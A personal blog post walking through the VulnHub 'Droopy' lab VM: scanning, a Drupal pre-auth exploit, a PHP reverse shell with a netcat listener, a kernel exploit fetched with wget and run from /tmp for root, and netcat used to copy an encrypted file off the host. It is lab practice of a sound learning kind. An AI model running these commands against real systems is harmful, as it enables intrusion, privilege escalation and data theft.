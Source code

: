 ```yaml
---
layout: post
title:  "vulnhub droopy vm"
date:   2016-05-26 00:00:10 +0000
categories: vulnhub
---
```

<p>Been a while since i played with vulnhub. So since yesterday i've been trying to break <a href="https://www.vulnhub.com/entry/droopy-v02,143/">droopy</a>, which i almost did ...
<p>So, the usual stuff:
{% highlight bash %}
sudo netdiscover -r 192.168.0.0/16
{% endhighlight %}
<p> My target is 192.168.1.89 .
{% highlight bash %}
nmap -p- -sV 192.168.1.89
{% endhighlight %}
<p> Found a port 80 open. I followed it since it was the only one open and found a drupal website.
<br>I tried to create a user no luck, i searched for something interesting in the sub-directories:
{% highlight bash %}
python wfuzz.py -c -z file,wordlist/general/common.txt --hc 404   http://192.168.1.89/FUZZ
{% endhighlight %}
<pre>
==================================================================
ID	Response   Lines      Word         Chars          Request
==================================================================

00385:  C=301      9 L	      28 W	    314 Ch	  "includes"
00491:  C=301      9 L	      28 W	    310 Ch	  "misc"
00499:  C=301      9 L	      28 W	    313 Ch	  "modules"
00675:  C=301      9 L	      28 W	    313 Ch	  "scripts"
00724:  C=301      9 L	      28 W	    311 Ch	  "sites"
</pre>
<p>... after a while decide to change and look for the drupal stuff. I found this gem <a href="https://github.com/droope/droopescan">droopescan</a> and found drupal 7.3 was in usage.
{% highlight bash %}
./droopescan  scan drupal -u http://192.168.1.88/ -t 8
{% endhighlight %}
<p>I don't usually ( at least i don't remember) hunt for exploits but his time this seemed a reasonable choice since it was an old version of drupal and i had no other ideia.
<p>Found the exploit ... a pre-authentication one, wow. o.o !!
<a href="https://www.exploit-db.com/exploits/34992/">the exploit</a>
{% highlight bash %}
python 34992.py  -t http://192.168.1.88 -u estafermo -p estafermo
{% endhighlight %}
<p>User created.

<p> So, in the admin panel after a while trying to add a "file uploader" to the article i saw an item saying to enable PHP to run. I wonder if this is commom usage in other CMS and similar, like wordpress and stuff... must check this.
<br>In modules I set the PHP to ok and then set the possibility to add php code in 'articles'. Next, i created a new article and used this <a href="http://pentestmonkey.net/tools/web-shells/php-reverse-shell">php reverse shell</a> pointing to my computer. With the usual suspect netcat for the win:
{% highlight bash %}
nc -lnvvp 12344
{% endhighlight %}
I created an article with that PHP in the body!
<p><b>shell!</b>

<p>After fooling around in the server, moving around all directories i could remember,there was no commom user directories to see .bash_history and not much besides the mysql password with no further info in the database as well.
I knew it was an old kernel, it's probably the first command i do whenever i connect to a server:
{% highlight bash %}
uname -a
{% endhighlight %}
Old old kernel... then again, i had no clue what to do next so i choose the easy path:
{% highlight bash %}
cd /tmp
wget https://www.kernel-exploits.com/media/ofs_64
chmod +x ofs_64
./ofs_64
{% endhighlight %}
<p><b>ROOT!</b> Oh!
<p>Reading the email in /var/spool/mail/www-data and the help hints i knew i had to use rockyou passwordlist against something and found the encrypted file in:
{% highlight bash %}
/root/dave.tc
{% endhighlight %}
<p>So copied the file with netcat to my computer:
{% highlight bash %}
nc -lnvvp 12345 > dave.tc
nc 192.168.1.73 12345 < dave.tc
{% endhighlight %}
<p>Well, then i gave up... i started cracking it with hashcat and went to do something else ... when i got back after 2 hours... no luck... wtf... i must have done something wrong.
<p>I thought i did something wrong.. 2 exploits in one VM and still no flag?  Hm... so i went to check other people resolutions: it appears they filtered the rockyou by the word 'academy' ( from the email in /var/spool/mail/www-data)... <b>i would never do that, honestly.</b> I still fail to see that hint in the email :P . So then they mount the truecrypt and found the flag in an hidden folder.
<p>Fun until root! :) After that i started wondering if what i was doing was ok, mainly those 2 exploits usage.
